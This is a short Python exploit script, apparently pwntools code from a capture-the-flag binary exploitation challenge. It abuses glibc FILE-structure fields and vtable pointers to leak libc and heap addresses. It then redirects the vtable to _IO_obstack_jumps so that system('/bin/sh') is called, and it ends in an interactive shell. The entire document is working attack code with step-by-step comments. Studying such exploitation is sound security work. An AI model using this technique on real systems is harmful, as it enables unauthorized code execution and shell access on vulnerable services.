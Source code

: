 ```python
#executing _IO_file_doallocate to populate _IO_buf_base with a heap address
trick(_vtable, 0xa8)
flush()
sleep(1)
#restoring the vtable
trick(_vtable, 0xa0)
#making _IO_write_ptr > _IO_write_base 
trick(_IO_write_ptr, 1)
flush()
sleep(1)
#leaking libc
trick(_fileno, 1)
trick(_IO_write_ptr, 0x78)
trick(_IO_write_base, 0x70)
trick(_IO_read_end, 0x70)
flush()
sleep(1)
#receiving the leak and calculating libc base address
leak = u64(r.recvuntil(b"Done.").split(b"Done.")[0][1:8].ljust(8,b"\x00"))
log.info(f"leak = {hex(leak)}")
libc.address = leak - 0x1e8f60
log.info(f"libc = {hex(libc.address)}")
#getting a heap leak
trick(_fileno, 1)
#calculating topchunk address in the main arena
topchunk = libc.address + 0x1ecbe0
log.info(f"top_chunk = {hex(topchunk)}")
write_addr(_IO_write_ptr, topchunk+8)
write_addr(_IO_write_base, topchunk)
write_addr(_IO_read_end, topchunk)
#write_addr(_flags, (0xfbad1800 | 0x8000))
sleep(1)
flush()
#receiving the leak and calculating addresses
heap_leak = u64(r.recvuntil(b"Done.").split(b"Done.")[0][1:8].ljust(8, b"\x00"))
log.info(f"heap_leak = {(hex(heap_leak))}")
heap_base = heap_leak - 0x2480
log.info(f"Heap base = {hex(heap_base)}")
#shifting the vtable to point __sync to _IO_obstack_jumps 
shift_obstack_jumps = libc.address + 0x1e9218
log.info(f"shift_obstack_jumps = {hex(shift_obstack_jumps)}")
write_addr(_vtable, shift_obstack_jumps)
#writing the obstack struct pointers
write_addr(0xe0, heap_base+0x2a0)
write_addr(_flags, heap_base+0x2a0)
#setting arguments for CALL_FREEFUN within _obstack_newchunk
log.info(f"system = {hex(libc.sym.system)}")
write_addr(_IO_backup_base, 0xdeadbeef)
write_addr(_IO_buf_base, libc.sym.system) # function to call
log.info(f"/bin/sh = {hex(next(libc.search(b'/bin/sh')))}")
write_addr(_IO_save_base, next(libc.search(b'/bin/sh'))) # arg of function
#drop a shell
flush()
#========= interactive ====================
r.interactive()
```

